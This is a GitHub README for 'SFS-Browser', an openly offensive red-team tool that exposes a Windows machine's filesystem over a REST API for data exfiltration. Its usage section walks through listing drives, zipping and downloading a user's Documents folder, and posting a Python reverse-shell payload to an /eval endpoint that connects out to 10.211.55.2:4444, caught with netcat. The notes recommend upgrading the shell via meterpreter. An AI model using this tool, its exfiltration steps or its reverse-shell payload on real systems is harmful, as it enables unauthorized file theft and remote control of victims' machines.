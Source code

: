 # SFS-Browser [![](https://ci.appveyor.com/api/projects/status/github/limitedeternity/SFS-Browser)](https://ci.appveyor.com/project/limitedeternity/sfs-browser)
> Personal Red Team Operation Tool: Data Exfiltration REST API

## Usage:
```
PS C:\Users\limitedeternity> Invoke-RestMethod http://localhost:38080/

name type
---- ----
A:   disk
C:   disk
D:   disk
Z:   disk


PS C:\Users\limitedeternity> Invoke-RestMethod http://localhost:38080/C:

name                   type                modified
----                   ----                --------
$Recycle.Bin           directory    1595677350978,4
Documents and Settings directory    1595673448354,0
PerfLogs               directory 1247539025220,0916
Program Files          directory    1619910935484,2
Program Files (x86)    directory    1608297970979,4
ProgramData            directory    1619910502873,0
Users                  directory    1595673448354,0
Windows                directory    1619103971840,0
autoexec.bat           file      1244670140125,8877
config.sys             file      1244670140125,8877
hiberfil.sys           file      1625073190506,4001
pagefile.sys           file         1625073194874,4


PS C:\Users\limitedeternity> Invoke-RestMethod http://localhost:38080/C:/Users/limitedeternity/Documents/

name                   type                modified
----                   ----                --------
Visual Prolog Projects directory    1612371582917,8
Visual Studio 2010     directory    1602501898520,0
bins                   directory 1595846202658,4001
Мои видеозаписи        directory    1595677374596,8
Мои рисунки            directory 1595677374612,4001
Моя музыка             directory    1595677374643,6
desktop.ini            file         1595677374752,8


PS C:\Users\limitedeternity> Invoke-RestMethod http://localhost:38080/C:/Users/limitedeternity/Documents?zip=true

location
--------
C:\Users\limitedeternity\AppData\Local\Temp\tmprwfn3bwj.zip


PS C:\Users\limitedeternity\Downloads> Invoke-RestMethod http://localhost:38080/C:\Users\limitedeternity\AppData\Local\Temp\tmp9i4r3iyh.zip -Outfile test.zip
PS C:\Users\limitedeternity\Downloads> dir

    Directory: C:\Users\limitedeternity\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       30.06.2021     22:17        1801859 test.zip


PS C:\Users\limitedeternity> $body = @{payload="exec(`"import socket, subprocess;s = socket.socket();s.connect(('10.211.55.2',4444))\nwhile True:  proc = subprocess.Popen(s.recv(1024).decode('utf-8'), stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True);s.send(b'\\n'.join(proc.communicate()))`")"}
PS C:\Users\limitedeternity> Invoke-RestMethod -Method POST -Uri http://localhost:38080/eval -Body ($body | ConvertTo-JSON) -ContentType "application/json"

❯ nc -lvp 4444
Connection from 10.211.55.6:49259
```

## Notes
* Windows XP+ **ONLY**
* I'm not planning to support every possible platform - I only need Windows
* Zip file gets deleted once downloaded
* I'm not planning to implement file upload functionality – catch a reverse shell in meterpreter and upgrade it 
